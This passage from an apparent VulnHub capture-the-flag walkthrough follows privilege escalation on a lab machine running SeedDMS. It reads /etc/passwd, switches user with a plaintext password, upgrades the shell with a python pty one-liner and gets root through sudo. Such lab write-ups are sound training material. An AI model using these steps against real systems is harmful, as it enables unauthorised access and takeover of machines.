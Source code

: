 ```
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/4$ 
```
Now that we are on the box, we do some basic enumeration. straight away looking at the passwd file we notice a name we have seen before:
```
cat /etc/passwd 
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false
saket:x:1000:1000:Ubuntu_CTF,,,:/home/saket:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false
```
Lets try upgrade to saket
```
su saket
Password:Saket@#$1337
```
it looks blank but what we have is a /bin/sh shell. Time to upgrade it with python:
```
which python2
python2 -c 'import pty; pty.spawn("/bin/bash")'

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

saket@ubuntu:~$ 
```
We notice on our bash screen that we are advised to run admin commands as sudo.

We can confirm this with the command sudo -l
```
sudo -l

sudo -l
[sudo] password for saket: Saket@#$1337

Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
to upgrade to root we simply run sudo su:
```
sudo su
```
As mentioned as the goal on the VulnHub page, root shell is the target which we now have. Win.
